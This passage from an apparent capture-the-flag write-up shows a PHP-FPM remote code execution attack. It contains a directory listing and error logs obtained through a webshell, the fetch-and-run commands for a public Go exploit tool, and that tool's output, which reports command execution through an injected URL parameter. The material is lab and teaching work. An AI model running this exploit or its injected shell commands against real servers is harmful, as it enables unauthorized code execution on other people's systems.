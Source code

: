 ```
run
sbin
srv
sys
tmp
usr
var
' - bin
boot
dev
entry.sh
etc
home
lib
lib64
media
mnt
opt
php-src
proc
root
run
sbin
srv
sys
tmp
usr
var
: cannot open shared object file: No such file or directory in Unknown on line 0
[05-Aug-2021 00:44:14 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
[05-Aug-2021 00:44:36 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
[05-Aug-2021 00:44:47 UTC] PHP Warning:  Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2

Warning: Cannot modify header information - headers already sent by (output started at /tmp/a:1) in /var/www/html/index.php on line 2
batch mode: /usr/bin/ersatool create|print|revoke CN

```

This webshell was very unstable. Sometimes I had to refresh the page five or six times to see a result. I also tried a [version of the exploit](https://github.com/neex/phuip-fpizdam) written in Go that gave better information about what was going on. I got the binary with `go get github.com/neex/phuip-fpizdam` , and then ran it:

```

oxdf@parrot$ ~/go/bin/phuip-fpizdam http://127.0.0.1:9001/index.php
2021/08/05 08:01:05 Base status code is 200
2021/08/05 08:01:07 Status code 502 for qsl=1765, adding as a candidate
2021/08/05 08:01:07 The target is probably vulnerable. Possible QSLs: [1755 1760 1765]
2021/08/05 08:01:09 Attack params found: --qsl 1755 --pisos 38 --skip-detect
2021/08/05 08:01:09 Trying to set "session.auto_start=0"...
2021/08/05 08:01:10 Detect() returned attack params: --qsl 1755 --pisos 38 --skip-detect <-- REMEMBER THIS
2021/08/05 08:01:10 Performing attack using php.ini settings...
2021/08/05 08:01:11 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2021/08/05 08:01:11 Trying to cleanup /tmp/a...
2021/08/05 08:01:11 Done!

```

